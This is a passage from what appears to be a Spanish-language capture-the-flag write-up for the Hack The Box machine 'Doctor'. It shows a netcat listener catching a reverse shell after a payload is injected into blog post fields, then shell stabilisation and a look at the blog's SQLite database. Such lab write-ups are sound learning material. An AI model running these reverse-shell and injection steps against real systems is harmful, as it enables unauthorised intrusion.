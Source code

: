 Ahora nos pondremos en escucha

```bash
❯ nc -nlvp 443
listening on [any] 443 ...


```

Ahora crearemos el post inyectando todo ese payload en los 2 campos

Una vez creado simplemente recargamos la pagina otra vez en la ruta `/archive`

Y ganamos acceso

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.209] 58620
bash: cannot set terminal process group (876): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ whoami
whoami
web
web@doctor:~$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
web@doctor:~$ 
```

Ahora haremos esto para poder hacer un `ctrl+c`

```bash
web@doctor:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
web@doctor:~$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
web@doctor:~$ export TERM=xterm
```

Bueno aquí vemos un `script` en `Bash` donde hay una **.db** 

```bash
web@doctor:~$ cat blog.sh 
#!/bin/bash
SECRET_KEY=1234 SQLALCHEMY_DATABASE_URI=sqlite://///home/web/blog/flaskblog/site.db /usr/bin/python3 /home/web/blog/run.py
web@doctor:~$ cd blog/flaskblog/
web@doctor:~/blog/flaskblog$ ls
config.py  __init__.py  models.py  __pycache__  static     tmp
errors     main         posts      site.db      templates  users
web@doctor:~/blog/flaskblog$ file site.db 
site.db: SQLite 3.x database, last written using SQLite version 3031001
web@doctor:~/blog/flaskblog$ 
```
